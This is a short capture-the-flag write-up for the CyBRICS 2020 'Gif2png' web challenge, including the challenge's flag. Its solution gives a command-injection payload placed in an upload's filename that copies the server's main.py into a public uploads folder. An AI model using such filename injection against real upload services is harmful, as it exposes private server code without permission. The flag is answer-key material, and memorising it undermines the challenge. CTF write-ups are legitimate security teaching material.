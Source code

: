 ## Gif2png (Web)

Author: Alexander Menshchikov ([@n0str](https://t.me/n0str))

The webdev department created another cool startup. Here you can convert any animated GIF to PNG images. 

It's only left to figure out how to monetize it: https://gif2png-cybrics2020.ctf.su

[src](./gif2png.tar.gz)

---

## Solution

1. Generate uid (upload valid gif and check url part after /result/)

2. Build payload `'$(cp main.py uploads$(pwd | cut -c1)GENERATED_UID$(pwd | cut -c1))'.gif`

3. In new upload request set `filename="BUILT_PAYLOAD"`

4. Check url `http://gif2png-cybrics2020.ctf.su/uploads/GENERATED_UID/main.py` and find `ffLaG`

flag is `cybrics{imagesaresocoolicandrawonthem}`
